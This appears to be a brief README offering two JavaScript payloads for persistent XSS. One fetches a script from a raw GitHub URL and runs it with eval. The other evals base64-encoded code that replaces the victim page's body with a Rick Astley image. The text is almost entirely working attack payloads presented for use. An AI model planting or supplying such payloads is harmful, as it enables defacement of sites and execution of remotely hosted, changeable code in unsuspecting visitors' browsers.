 # XSS

Put `eval(await (await fetch("https://raw.githubusercontent.com/luxterful/nevergonnagiveyouup/master/script.js")).text())` into persistant XSS and see the magic.

`eval(atob("Y29uc3QgaW1nPWRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ2ltZycpO2ltZy5zZXRBdHRyaWJ1dGUoJ3NyYycsJ2h0dHBzOi8vdXBsb2FkLndpa2ltZWRpYS5vcmcvd2lraXBlZGlhL2NvbW1vbnMvMS8xMy9JYS1uZXZlci1nb25uYS1naXZlLXlvdS11cC1yaWNrLWFzdGxleS10cmlvbmZhbGUtcmVtYXN0ZXItNGstdjMtNTAwNDIxLmpwZycpLGltZy5zdHlsZS5tYXhXaWR0aD0nMTAwJScsZG9jdW1lbnQuZ2V0RWxlbWVudHNCeVRhZ05hbWUoJ2JvZHknKVswXS5yZXBsYWNlV2l0aChpbWcpOw=="))`
